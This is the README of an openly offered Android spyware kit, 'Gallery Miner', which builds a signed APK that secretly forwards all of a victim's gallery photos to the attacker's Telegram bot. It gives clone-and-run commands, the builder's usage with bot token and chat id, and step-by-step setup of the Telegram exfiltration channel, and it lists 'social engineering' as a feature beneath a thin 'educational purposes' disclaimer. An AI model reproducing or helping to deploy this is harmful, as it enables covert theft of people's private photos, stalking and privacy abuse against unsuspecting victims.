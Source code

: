 <div align="center">
  <img src="/images/icon.png" width="30%" />
  <h1 align="center">Gallery Miner</h1>
  <h3>Yet another software for spying on Android gallery and forward all victim saved photos to your telegram bot.</h3>
  <h4>This software is exclusively designed for educational purposes ⚠️</h4>
</div>

## Features
- easy to use
- customizable
- social engineering

## Setup and installation

### Step 1

```
git https://github.com/mkdirlove/GalleryMiner.git
```
```
cd GalleryMiner
```
```
bash galleryminer.sh
```

### Usage

```
  ___      _ _              __  __ _              
 / __|__ _| | |___ _ _ _  _|  \/  (_)_ _  ___ _ _ 
| (_ / _` | | / -_) '_| || | |\/| | | ' \/ -_) '_|
 \___\__,_|_|_\___|_|  \_, |_|  |_|_|_||_\___|_|  
                       |__/                       
  Made with <3 by @mkdirlove             v1.0-dev

Using tools:
  APKTool: apktool
  Jarsigner: jarsigner

Usage: galleryminer.sh --tg_id <id_content> --tg_bot_token <bot_token> --sign <sign_option>
```

### Example Usage

```
bash galleryminer.sh --tg_id 1234578 --tg_bot_token DFGD34dfgtry34 --sign yes
```

### Step 2
Obtain your Telegram bot token and your numeric Telegram id.

<strong>Create a Telegram bot:</strong>

Open BotFather on your telegram acccount: [Open BotFather](https://t.me/BotFather)

Start BotFather and send <strong>/newbot</strong> commend and then BotFather will ask you to enter a name and a username for your bot.

After that BotFather will create your bot, copy and save your bot token and click on your bot username and start it.

<p float="left">
  <img src="/images/prv1.png" width="20%" />
  <img src="/images/prv2.png" width="20%" />
</p>

<strong>Obtain your numeric id:</strong>

To obtain your teleram account numeric id you need to start @userinfobot Teleram bot

[Click here to start userinfobot Telegram bot](https://t.me/userinfobot)

After starting this bot, the bot will send you your numeric telegram id

<p float="left">
  <img src="/images/prv3.png" width="20%" />
</p>






